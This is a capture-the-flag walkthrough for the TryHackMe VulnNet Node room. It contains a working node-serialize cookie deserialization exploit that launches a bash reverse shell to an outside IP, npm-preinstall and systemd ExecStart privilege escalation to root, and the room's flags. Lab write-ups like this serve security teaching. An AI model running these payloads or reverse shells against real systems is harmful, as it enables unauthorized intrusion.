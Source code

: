 # Tryhackme.com Room : VulNet Node

`https://tryhackme.com/room/vulnnetnode`

## Instance

```bash
export IP="10.10.207.221"
```

## Nmap

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

## Initial Foothold

Static blog on port `8080` 

We see the potential users

```
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Woolbridge
```

There is a `/login` page asking for an email.

We can probably assume that the domain is `vulnnet.thm` 



Seems like the endpoint is case insensitive.

The login page doesn't seem to do much.

Looking at the cookies, we find `session`

```
eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==
```

which translate to 

```
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```

Let's try to change `isGuest`

Doesn't do anything.

We probably need to trigger some RCE with regards to the unserialization process

Potential solution : https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/



Actually, when we change the `username` in the cookie, we change the the `Welcome XXX` message

Maybe this is a template injection vuln ?



Managed to get a stacktrace by feeding crap JSON :

```
SyntaxError: Unexpected token % in JSON at position 0
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/www/VulnNet-Node/server.js:16:24
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

Which show that the server is in fact using `node-serialize` which bring us back to the unserialization RCE.



Soooo, in the end, it was really easy.. I was just stupid for 2 reasons

1. I was sending the payload in the `token` cookie... not `session` ...
2. I was using the wrong curl command to send the cookie (`-c` instead of `--cookie`). 
   I realized it when I manually entered the cookie in the browser and it worked...

I generated the cookie with this js code

```javascript
var serialize = require('node-serialize');

var payload = {
    pwn: function(){
        require("child_process").exec("bash -c 'bash -i >& /dev/tcp/10.2.13.34/7777 0>&1'")
    }
};

var vuln_payload = serialize.serialize(payload).replace('}"','}()"');
var encoded = Buffer.from(vuln_payload).toString('base64')

console.log(encodeURIComponent(encoded))
```

I created this simple code to test my payload before sending it on the server

```javascript
var serialize = require('node-serialize');
var input = process.argv[2]
var decoded = Buffer.from(input, 'base64').toString('ascii')

var unserialized = serialize.unserialize(decoded)

console.log(unserialized)
```



Once I had a working payload, I sent the request using 

```bash
curl --cookie "session=$(node create_payload.js)" $IP:8080
```



And now we have a shell. That was actually pretty easy... 

Lesson learned, always double check parameters and cookie value...

## Priv esc

We are now logged in as `www` user (full user).

There is no `user.txt` here, probably in another user



List of all users with shell:

```
root:x:0:0:root:/root:/bin/bash
serv-manage:x:1000:1000:serv-manage,,,:/home/serv-manage:/bin/bash
www:x:1001:1001:,,,:/home/www:/bin/bash
```

Running `sudo -l` we get

```
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

We can run `npm` as `serv-manage` 

From gtfobin we see that we can define a `preinstall` script in `package.json` and get a shell.

```bash
mkdir pwn && echo '{"scripts": {"preinstall": "/bin/sh"}}' > pwn/package.json
```

Then we run

```bash
sudo -u serv-manage /usr/bin/npm -C pwn --unsage-perm i
```

And we get a shell as 

```
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```

We upgrade our shell again via `python -c 'import pty; pty.spawn("/bin/bash")'` and we are good to go

We find `/home/serv-manage/user.txt`

```
THM{064640a2f880ce9ed7a54886f1bde821}
```



Running `sudo -l` we get

```
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We find the config file using `find / -name "vulnnet-auto*" 2>/dev/null`

```
cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

I guess there is multiple way to make this work, my solution was to create another revshell from `vulnnet-job.service`



I modified the `ExecStart` in `/etc/systemd/system/vulnnet-job.service` to

```
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.13.34/6666 0>&1'
```

Then we need to 

```
/bin/systemctl daemon-reload
/bin/systemctl stop vulnnet-auto.timer
/bin/systemctl start vulnnet-auto.timer
```

And we get a shell ! (Because of the `OnBootSec=0min` config). We also could have modified `OnCalendar` so that the job is triggered every X seconds.



We now have a root shell and here we find `/root/root.txt`

```
THM{abea728f211b105a608a720a37adabf9}
```



## End

